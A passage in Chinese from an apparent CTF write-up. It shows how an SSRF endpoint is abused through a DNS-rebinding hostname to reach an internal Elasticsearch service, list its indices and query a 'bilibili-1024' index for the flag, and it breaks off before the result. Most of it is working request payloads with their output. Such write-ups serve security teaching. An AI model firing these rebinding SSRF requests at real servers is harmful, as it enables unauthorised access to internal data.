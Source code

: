 浏览器访问时，疯狂刷新尝试多次之后，可以得到elasticsearch的信息。个人经验是5-10次刷新之后可以拿到想要结果。

```json
{
  "name" : "ali-sh-sec-ctf-25aaa86-01",
  "cluster_name" : "elasticsearch",
  "cluster_uuid" : "ikcj8ysFR2KnnTa5chqvUA",
  "version" : {
    "number" : "7.17.6",
    "build_flavor" : "default",
    "build_type" : "deb",
    "build_hash" : "f65e9d338dc1d07b642e14a27f338990148ee5b6",
    "build_date" : "2022-08-23T11:08:48.893373482Z",
    "build_snapshot" : false,
    "lucene_version" : "8.11.1",
    "minimum_wire_compatibility_version" : "6.8.0",
    "minimum_index_compatibility_version" : "6.0.0-beta1"
  },
  "tagline" : "You Know, for Search"
}
null
```

上面的信息一眼就能得知是elasticsearch，现在我们需要思考利用ES获取更多的线索信息。

常见ES的Web API链接：

```
http://localhost:9200/_cat/indices   //索引列表
http://localhost:9200/_river/_search //查看数据库敏感信息
http://localhost:9200/_nodes         //查看节点数据
http://localhost:9200/_plugin/head/  //web管理界面，如果安装了head插件
```

---
=> http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200/_cat/indices

```
green open .geoip_databases CkETGon2QY-4M2mEK2UWJw 1 0 41 38 39.1mb 39.1mb yellow open bilibili-1024 SmBCxYqBTu2qbD1Db9B7UA 1 1 1 0 5.7kb 5.7kb null
```

上面信息可读性很差，我们可以只列出index。

=》http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200/_cat/indices?h=index

```
.geoip_databases bilibili-1024
```

推测是这个 bilibili-1024 索引会有进一步的信息，.geoip_databases 索引可能性不大。



### 拿下flag

那么访问  http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200/bilibili-1024/_search

可以得到：
